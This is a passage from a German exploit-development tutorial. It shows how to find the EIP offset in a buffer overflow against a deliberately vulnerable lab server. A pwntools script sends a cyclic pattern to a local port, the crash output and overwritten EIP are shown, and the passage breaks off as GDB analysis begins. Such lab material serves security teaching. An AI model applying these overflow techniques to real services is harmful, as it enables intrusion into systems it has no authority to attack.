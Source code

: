 
## Offset für EIP-Kontrolle

Um einen Buffer Overflow gezielt ausnutzen zu können, muss zunächst der **Offset** bestimmt werden – also die exakte Anzahl an Bytes, die nötig sind, um den **Instruction Pointer (EIP)** zu überschreiben. Dafür nutzen wir die Funktion `cyclic` aus der Python-Library [pwntools](https://docs.pwntools.com/en/stable/).

Diese erzeugt ein eindeutiges Byte-Muster, das es erlaubt, anhand des gecrashten EIP-Werts genau zurückzurechnen, an welcher Stelle der Overflow stattgefunden hat.

---

### Payload senden

Wir starten den Server `vuln_noprot` unter `gdb` und führen dann auf der Kali-Maschine folgendes Skript aus, das einen 100-Byte langen Payload generiert und versendet:

```python
# /examples/vuln_server/exploits/cyclic_load.py
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")
payload = cyclic(100, n=4)   # einzigartiges Pattern für 32-bit
r.send(payload)

r.close()
```

`payload = cyclic(100, n=4)` erzeugt 100 einzigartige Bytes, wobei n=4 der Architektur (32-bit) entspricht. Nach dem Versand der Payload crasht das Programm – wie erwartet – mit einem **Segmentation Fault**:

```
Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```
Der EIP wurde mit `0x61616174` überschrieben, ein Wert aus dem cyclic-Pattern.

---

### Analyse mit GDB
In GDB können wir uns mit `info register` die aktuellen Werte aller CPU-Register ausgeben und mit `x/20xw $esp` den aktuellen Inhalt des Stacks ab dem Stack-Pointer (ESP) untersuchen:
